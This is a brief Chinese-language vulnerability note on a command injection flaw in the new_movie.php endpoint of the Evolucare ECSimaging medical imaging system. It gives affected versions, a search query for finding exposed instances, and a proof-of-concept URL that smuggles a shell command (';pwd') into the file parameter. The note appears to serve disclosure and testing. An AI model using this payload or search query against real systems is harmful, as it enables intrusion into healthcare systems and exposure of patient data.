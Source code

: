 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](images/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](images/202205241447391.png)